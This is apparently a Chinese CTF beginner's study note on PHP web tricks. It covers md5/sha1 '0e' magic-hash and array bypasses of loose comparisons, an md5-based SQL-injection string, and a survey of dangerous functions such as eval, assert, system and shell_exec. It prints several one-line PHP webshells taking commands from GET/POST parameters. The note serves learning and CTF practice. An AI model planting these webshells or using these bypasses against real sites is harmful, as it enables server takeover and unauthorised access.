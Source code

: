 ## 新生第一步，认识md5（five）
例题：
```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = [$_POST['password'];](url)
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
如例题所示，要求传入的是两个参数，post一个password，get一个name,要求两个东西的参数内容不一样，但是md5的值要一样，看似是不可能的，但是，md5其实早已被前人们给创烂了，md5的对撞已经不是很难完成，但是，这里用的并不是md5的对撞，而是php语言的妙妙小特性：
在md5化之后，如果数据以0e加纯数字结尾，会被直接解析为0，以此达到相等的结果,这里贴出一些值:
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361

这里还有经过两次md5后值还相同的：
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk

自己等于自己md5的：
0e215962017

同理，还有一种加密算法sha1也有这样的问题，这里一并贴出：
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799

还有一种很罕见的
NAN绕过，在处理时发生错误

sql注入相关：
md5后值是万能密码：ffifdyop

还有md5值和sha1相等的参考极客大挑战2024的题

这是第一种打法
那么，主播主播，找特殊值还是太困难了，有没有更简单更强势的打法呢？


有的兄弟，有的，像这么强势的打法不止这一种（bushi


介绍大名鼎鼎的数组绕过：
管他什么name[]=1password[]=2直接秒了，但是以后大概是没有这么顺利的题了


## 二、一些敏感的函数：
eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点
#### eval()
大名鼎鼎，臭名昭著。一句话木马常客一号。
```php
<?php @eval($_POST['shell']);?>
```
#### assert()
同样是很敏感的东西，一句话木马常客二号
```php
<?php assert(@$_POST['shell']); ?>
```
#### preg_replace()
这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马
```php
preg_replace("/test/e",$_GET["shell"],"just test");
```
剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function()  (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system() 
漏洞头头，这里放出一句话木马的形式：
```php
<?php
    system($_GET['cmd']);
?>
```
#### exec() 执行外部程序
```php
<?php 
    echo exec("whoami");
?>
```

#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回
```php
<?php 
    echo shell_exec("whoami");
?>
```

剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出
```php
<?php 
    passthru("whoami");
?>
```
proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag
### 文件包含系  
关于这一部分，详见文件包含专题
php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；
### SSRF系
~~没学过还不会，先放着~~
###  XXE系
~~也没学过~~

## 其他：
php的变量名使用字母数字和下滑线构成的，所以会将空格、+、点、[转换为下划线，但是当[提前出现后，后面的点就不会再变成_了


